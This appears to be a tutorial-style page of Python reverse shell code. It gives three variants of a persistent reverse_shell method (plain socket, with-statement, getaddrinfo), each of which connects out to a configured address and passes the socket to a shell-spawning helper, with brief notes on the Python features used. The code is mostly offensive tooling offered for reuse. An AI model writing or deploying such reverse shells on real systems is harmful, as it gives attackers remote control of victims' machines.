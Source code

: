 

```python
@infinite
def reverse_shell(self):
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect(self.addr)

    print(f"Connected: {self.__host}:{self.__port}")

    self._spawn(sock, *self.addr)
    sock.close()
```

# With Statement

We can remove the need to manually call close() on the socket when finished by utilizing a with statement context manager.

> "The with statement is used to wrap the execution of a block with methods defined by a context manager (see section With Statement Context Managers). This allows common try…except…finally usage patterns to be encapsulated for convenient reuse." ― [with](https://docs.python.org/3/reference/compound_stmts.html#the-with-statement)



```python
@infinite
def reverse_shell_context(self):
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as sock:
        sock.connect(self.addr)

        print(f"Connected: {self.__host}:{self.__port}")

        self._spawn(sock, *self.addr)
```

# GetAddrInfo

The [getaddrinfo(host, port, family=0, type=0, proto=0, flags=0)](https://docs.python.org/3/library/socket.html#socket.getaddrinfo) method translates the host/port argument into a sequence of 5-tuples (family, type, proto, canonname, sockaddr) that we can use to create a socket object. Host can be a domain name, an IP address in string format or None. Port is a service name like 'http', an int like 4444 or None.



```python
@infinite
def reverse_shell_getaddrinfo(self):
    for addrinfo in socket.getaddrinfo(*self.addr, socket.AF_UNSPEC, socket.SOCK_STREAM):
        family, _type, proto, canonname, sockaddr = addrinfo
        try:
            sock = socket.socket(family, _type, proto)
            sock.connect(sockaddr)
        except OSError:
            sock.close()
            sock = False
            continue
        break
    
    if not sock: return
    
    print(f"Connected: {self.__host}:{self.__port}")
    
    self._spawn(sock, *self.addr)
    
```
